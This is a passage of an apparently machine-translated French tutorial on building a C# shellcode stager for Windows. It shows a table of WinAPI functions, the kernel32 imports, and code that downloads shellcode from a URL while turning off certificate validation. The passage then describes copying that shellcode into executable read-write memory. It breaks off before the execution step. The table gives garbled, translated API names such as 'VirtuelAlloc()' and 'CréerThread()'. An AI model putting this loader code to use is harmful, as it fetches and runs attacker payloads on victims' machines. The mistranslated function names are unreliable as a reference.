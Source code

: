 | Fonction WinAPI                                                                                                         | Description                                                                                                          |
| ----------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| [VirtuelAlloc()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)                | Nous permet de réserver de la mémoire à utiliser par notre shellcode.                                                |
| [CréerThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) | Crée un fil de discussion dans le cadre du processus en cours.                                                       |
| [Attendre un seul objet()](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) | Utilisé pour la synchronisation des threads. Cela nous permet d'attendre la fin d'un fil avant de continuer.<br><br> |

La partie du code en charge de l'import de ces fonctions est la suivante :

```
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

La partie la plus importante de notre code sera dans la `Stager()`fonction, où la logique du stager sera implémentée. La fonction Stager recevra une URL à partir de laquelle le shellcode à exécuter sera téléchargé.

La première partie de la `Stager()`fonction créera un nouvel `WebClient()`objet qui nous permettra de télécharger le shellcode à l'aide de requêtes Web. Avant de faire la demande proprement dite, nous écraserons la `ServerCertificateValidationCallback`méthode en charge de valider les certificats SSL lors de l'utilisation de requêtes HTTPS afin que le WebClient ne se plaigne pas des certificats auto-signés ou invalides, que nous utiliserons dans le serveur Web hébergeant les charges utiles. Après cela, nous appellerons la `DownloadData()`méthode pour télécharger le shellcode à partir de l'URL donnée et le stockerons dans la `shellcode`variable :

```
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Une fois notre shellcode téléchargé et disponible dans la `shellcode`variable, nous devrons le copier dans la mémoire exécutable avant de l'exécuter. Nous avons l'habitude `VirtualAlloc()`de demander un bloc de mémoire au système d'exploitation. Notez que nous demandons suffisamment de mémoire pour allouer `shellcode.Length`des octets et définissons l' `PAGE_EXECUTE_READWRITE`indicateur, rendant la mémoire attribuée exécutable, lisible et inscriptible. Une fois notre bloc mémoire exécutable réservé et affecté à la `codeAddr`variable, nous utilisons `Marshal.Copy()`pour copier le contenu de la `shellcode`variable dans la `codeAddr`variable.
